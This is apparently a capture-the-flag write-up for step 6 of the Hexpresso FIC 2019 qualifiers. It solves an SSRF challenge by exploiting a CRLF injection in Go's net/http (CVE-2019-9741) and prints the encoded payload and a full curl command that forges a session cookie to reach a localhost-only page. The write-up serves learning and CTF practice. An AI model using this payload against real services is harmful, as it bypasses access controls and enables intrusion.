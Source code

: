 ```yaml
---
title: Hexpresso FIC Quals 2019: Step 6
slug: hexpresso-fic-6
date: 20/12/2019 06
---
```


The sixth step is a WEB application that allows us to fetch an URL.

![Introduction](/assets/hexpresso-fic-quals/step6/intro.png)

In the source code of the page we can read:

```html
<div>
    <!-- <span>PS: To get your flag go here: <a href="/secret">/secret</a></span> -->
</div>
```

So, our objective is to access `/secret`. Let's see:

![Secret](/assets/hexpresso-fic-quals/step6/secret.png)

Coming from `127.0.0.1` should not be a big deal using the URL fetcher
itself, right? This challenge really looks like a standard SSRF anyways...

![Not so easy](/assets/hexpresso-fic-quals/step6/not_so_easy.png)

*Note: we must add a GET parameter because the script appends
`:80/` at the end of the URL. We could deal with it but its more convenient
to totally absorb it.*

It seems that `0.0.0.0` is reachable. We should now be coming from `127.0.0.1`
but there is something else. We are missing the `GOSESSION` cookie.

I tried to trick the applicaion for some time but the problem is clear: we
have to control the body of the query that the URL fetcher performs in order to
add the cookie.

At this point, I was very sad and did not know what to do. I was about to
give up when my teammate [Plean](https://twitter.com/plean702) sent me
[this link](https://github.com/golang/go/issues/30794).

[CVE-2019-9741](https://nvd.nist.gov/vuln/detail/CVE-2019-9741) is a CRFL
injection, in the `net/http` package of Go (version 1.11). It is exactly
what we need as it allows to write the body of the query.

I tweaked the example payload of the GitHub (see the link above) issue and
came up with this:

```
0.0.0.0/secret?b%3d%20HTTP/1.1%0d%0aCookie:%20GOSESSION%3dabc
```

A bit more readble:

```
0.0.0.0/secret?b= HTTP/1.1\r
Cookie: GOSESSION=abc
```

The original body will still be present, after ours, but it does not matter.

Because we have to deal with CRLFs, it is easier to urlencode the payload.
However, the URL fetcher interface does not handle it well. We can use `curl`
instead:

Final command:

```
$ curl 'http://c4ffddcc437c5df3e6d681e7cafab510.hexpresso.fr/host?host=0.0.0.0/secret?b%3d%20HTTP/1.1%0d%0aCookie:%20GOSESSION%3dabc%0d%0aSHIT:%20123' | jq -r ".content" | base64 -D
{"ok":true,"message":"Ok here is your flag ...","flag":"Gg ! Send mail here 9ca37832b9fb80-penultimate-stage@hexpresso.fr ! But there is one last step here for the brave available on : https://ctf.hexpresso.fr/219058289d8699adc0b119374c2fc5bc"}
```

I took a break at this point but my teammate Shiro continued on step 7. Please,
take a look at [his writeup](https://github.com/Pycatchown/writeUps/blob/master/FIC/step7/wu_step7.md).